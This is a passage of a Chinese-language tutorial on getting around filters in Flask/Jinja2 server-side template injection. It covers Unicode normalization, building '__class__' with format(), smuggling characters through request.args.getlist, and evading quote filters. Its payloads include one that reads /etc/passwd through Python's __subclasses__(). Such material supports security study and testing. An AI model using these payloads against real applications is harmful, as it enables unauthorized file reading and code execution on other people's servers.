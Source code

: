 #### <a class="reference-link" name="Python3%20%E5%AF%B9Unicode%E7%9A%84Normal%E5%8C%96"></a>Python3 对Unicode的Normal化

比如

[![](https://p5.ssl.qhimg.com/t01e6ff8bff9d312746.png)](https://p5.ssl.qhimg.com/t01e6ff8bff9d312746.png)

可以绕过数字限制

同时在python3中会对unicode normalize，导致exec可以执行unicode代码

[![](https://p1.ssl.qhimg.com/t01bdad70a59749d7dd.png)](https://p1.ssl.qhimg.com/t01bdad70a59749d7dd.png)

#### <a class="reference-link" name="Python%E7%9A%84%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E7%89%B9%E6%80%A7"></a>Python的格式化字符串特性

比如

```
'`{`0:c`}`'['format'](95)
`{` "%s, %s!"|format(greeting, name) `}``}`
```

拼接起来有

```
`{``{`""['`{`0:c`}`'['format'](95)+'`{`0:c`}`'['format'](95)+'`{`0:c`}`'['format'](99)+'`{`0:c`}`'['format'](108)+'`{`0:c`}`'['format'](97)+'`{`0:c`}`'['format'](115)+'`{`0:c`}`'['format'](115)+'`{`0:c`}`'['format'](95)+'`{`0:c`}`'['format'](95)]`}``}`
```

#### <a class="reference-link" name="getlist"></a>getlist

使用`.getlist()`方法获得一个列表，这个列表的参数可以在后面传递

```
`{`%print (request.args.getlist(request.args.l)|join)%`}`&amp;l=a&amp;a=_&amp;a=_&amp;a=class&amp;a=_&amp;a=_
```

可以获得`__class__`

### <a class="reference-link" name="%E7%89%B9%E6%AE%8A%E5%AD%97%E7%AC%A6%E8%BF%87%E6%BB%A4"></a>特殊字符过滤

#### <a class="reference-link" name="%E8%BF%87%E6%BB%A4%E5%BC%95%E5%8F%B7"></a>过滤引号

`request.args` 是flask中的一个属性,为返回请求的参数,这里把path当作变量名,将后面的路径传值进来,进而绕过了引号的过滤<br>
将其中的`request.args`改为`request.values`则利用`REQUEST`的方式进行传参

```
`{``{`().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()`}``}`&amp;path=/etc/passwd
```
